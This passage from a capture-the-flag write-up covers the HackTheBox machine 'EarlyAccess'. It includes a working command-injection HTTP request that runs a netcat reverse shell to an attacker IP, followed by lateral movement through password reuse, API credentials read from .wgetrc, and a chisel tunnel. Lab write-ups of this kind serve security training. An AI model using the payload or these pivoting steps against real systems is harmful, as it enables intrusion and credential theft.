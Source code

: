 ```http
GET /actions/file.php?filepath=hash.php&action=hash&debug=true&hash_function=system&password=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.109+443+>/tmp/f HTTP/1.1
Host: dev.earlyaccess.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://dev.earlyaccess.htb
Connection: close
Referer: http://dev.earlyaccess.htb/home.php?tool=hashing
Cookie: PHPSESSID=3012a4d5c37f5657582d464dfa3a33ff
Upgrade-Insecure-Requests: 1
```

```bash
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## `webserver`

> Lateral movement to `www-adm`, discovering leaked API credentials, & SSH access as `drew`

Situational awareness on `webserver` indicates several typical Linux executables missing on the system (i.e., `sudo`, `ip`). This is indicative that `webserver` is a container.

Listing `/home/`, it appears there is another user: `www-adm`. `admin@earlyaccess.htb`'s password, `gameover`, works for `www-adm`.

```bash
www-data@webserver:/dev/shm/tgihf$ su www-adm
Password:
www-adm@webserver:/dev/shm/tgihf$ id
uid=1000(www-adm) gid=1000(www-adm) groups=1000(www-adm)
```

The non-standard file `/home/www-adm/.wgetrc` contains the credential `api`:`s3CuR3_API_PW!`. `www-adm` must have been using this credentials to interact with the key verification API over HTTP.

```bash
www-adm@webserver:~$ cat ~/.wgetrc
user=api
password=s3CuR3_API_PW!
```

There appears to be an `api` container at IPv4 address `172.18.0.101`.

```bash
www-adm@webserver:/dev/shm/tgihf$ nc -v api 80
DNS fwd/rev mismatch: api != api.app_nw
api [172.18.0.101] 80 (http) : Connection refused
```

Transfer `chisel` to the target and establish a dynamic, reverse port forward tunnel from the attacking machine through the target.
